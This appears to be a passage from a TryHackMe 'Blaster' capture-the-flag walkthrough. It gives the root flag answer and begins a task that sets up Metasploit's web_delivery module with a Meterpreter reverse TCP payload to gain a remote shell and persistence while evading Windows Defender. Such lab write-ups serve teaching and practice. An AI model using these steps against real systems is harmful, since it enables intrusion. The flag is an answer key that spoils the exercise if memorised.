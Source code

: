 Now we can go ahead and read the root flag in administrator's desktop:

<p align="center"><img src="./files/rootFlag.png"></p>

Answer: `THM{COIN_OPERATED_EXPLOITATION}`

## [Task 4] Adoption into the Collective

Now that we've thoroughly compromised our target machine, let's return to our exploitation tools so that we can gain remote shell access and persistence.

### 4.1 - Return to your attacker machine for this next bit. Since we know our victim machine is running Windows Defender, let's go ahead and try a different method of payload delivery! For this, we'll be using the script web delivery exploit within Metasploit. Launch Metasploit now and select 'exploit/multi/script/web_delivery' for use.

Run `msfconsole` in your terminal and use the specified module:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Blaster]
└─$ msfconsole -q
msf6 > use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) >
~~~

No answer needed.

### 4.2 - First, let's set the target to PSH (PowerShell). Which target number is PSH?

First run `show options` to see the required settings:

~~~
msf6 exploit(multi/script/web_delivery) > show options

Module options (exploit/multi/script/web_delivery):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on
                                       the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
~~~